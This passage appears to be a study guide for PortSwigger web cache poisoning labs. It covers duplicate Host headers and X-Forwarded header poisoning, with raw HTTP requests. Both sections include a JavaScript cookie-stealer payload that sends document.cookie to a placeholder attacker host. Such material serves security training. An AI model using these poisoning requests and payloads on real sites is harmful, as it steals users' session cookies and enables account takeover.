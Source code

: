 ### Poison ambiguous request  

>Adding a second **Host** header with an exploit server, this ***identify*** a ambiguous cache vulnerability and routing your request. Notice that the exploit server in second **Host** header is reflected in an absolute URL used to import a script from ```/resources/js/tracking.js```. 

```html
Host: TARGET.net
Host: exploit.net
```

>On the exploit server set a file as same path target calls to ```/resources/js/tracking.js```, this will contain the payload. Place the JavaScript payload code below to perform a cookie stealer.  

```
document.location='https://OASTIFY.COM/?CacheCookies='+document.cookie;
```  

![Ambiguous Hosts](images/ambiguous-hosts.png)  

[PortSwigger Lab: Web cache poisoning via ambiguous requests](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)  

### Cache Poison multiple headers  

>Identify that cache hit headers in responses, then test if the target support ```X-Forwarded-Host``` or ```X-Forwarded-Scheme``` headers. These headers can allow for the stealing of victim session cookie.  
  
>Identify if adding the two **Forwarded** headers to the GET ```/resources/js/tracking.js``` request, result in a change to the location response header. This ***identify*** positive poisoning of the cache with multiple headers.  

```html
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps
```  

![x-forwarded-scheme not https](images/x-forwarded-scheme-nohttps.png)  

>On the exploit server change the file path to ```/resources/js/tracking.js``` and the update the poison request ```X-Forwarded-Host: EXPLOIT.net``` header. Place the payload on exploit server body.  

```html
document.location='https://OASTIFY.COM/?poisoncache='+document.cookie;
```  

>Remove the ```cb=123``` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.  

[PortSwigger Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)  

### Duplicate Parameter Fat Poison  
